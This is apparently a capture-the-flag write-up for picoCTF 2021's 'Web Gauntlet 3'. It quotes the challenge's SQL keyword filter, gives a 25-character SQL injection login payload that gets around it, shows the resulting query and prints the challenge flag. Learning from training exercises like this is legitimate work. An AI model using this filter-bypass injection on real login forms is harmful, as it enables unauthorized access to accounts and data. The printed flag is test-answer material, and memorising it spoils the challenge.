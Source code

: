 # Web Gauntlet 3

```markdown
Tags: `picoCTF2021` `Web Exploitation`
```

## **Description**

Last time, I promise! Only 25 characters this time. Log in as admin Site: [http://mercury.picoctf.net:8650/](http://mercury.picoctf.net:8650/) Filter: [http://mercury.picoctf.net:8650/filter.php](http://mercury.picoctf.net:8650/filter.php)

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

The filter of this round: or and true false union like = > < ; -- /\* \*/ admin

```sql
Username: ad'||'min
password: 1' IS NOT '2
```

```sql
SELECT username, password FROM users WHERE username='ad'||'min' AND password='1' IS NOT '2' 
```

## Flag

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p><code>picoCTF{k3ep_1t_sh0rt_6fdd78c92c7f26a10acd3ece176dea4d}</code></p></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
